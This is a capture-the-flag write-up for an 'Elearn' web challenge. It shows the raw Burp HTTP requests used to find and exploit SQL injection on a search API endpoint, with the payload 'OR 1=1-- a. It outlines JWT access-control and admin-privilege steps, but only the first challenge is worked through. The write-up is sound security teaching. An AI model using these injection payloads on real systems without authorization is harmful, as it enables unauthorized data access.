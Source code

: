 # Elearn (4 challenges)

### Summary
1. SQLi on API endpoint -> Flag
2. Broken Access Control via Improper Verification of JWT -> Flag
3. Admin Privileges -> PUT Access to API Endpoint -> Flag
4. ???

# Elearn (1/4) - SQLi?
This is SQLi - but not the workshop SQLi. You see, there are many different types of SQL databases out there, each comes with their own syntax.

This is a React App. Hence, we should use Burp even more to enumerate all those pesky endpoints which are hidden away from us. :3

SQLi often occurs in search functionality, we can try performing a search query.

``````
GET /api/modules/search/test123 HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We notice that our query is appended to the URL. We can try modifying the request in Burp by appending a '
``````
GET /api/modules/search/test123' HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We get our '500 INTERNAL SERVER ERROR' which means that this endpoint is probably SQLi vulnerable!

There is a caveat to this however, you may notice that the standard 'OR 1=1-- will still give a '500 INTERNAL SERVER ERROR'. However, its because there's a caveat to this. The syntax for comments in MySQL databases
``````
-- comment goes here
`````` 
Yep that's right! You need a space and a character after the payload. So you will have to append 'OR 1=1-- a instead! I strongly recommend for the escaping character in SQLi payloads to be '-- a' as it fits all the different types of SQL databases you will encounter!
``````
GET /api/modules/search/e 'OR 1=1-- a HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6MX0.osPzLbz-apKmy2t77ps7hRatSPK4PZTow7eSf4EWbvw
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````

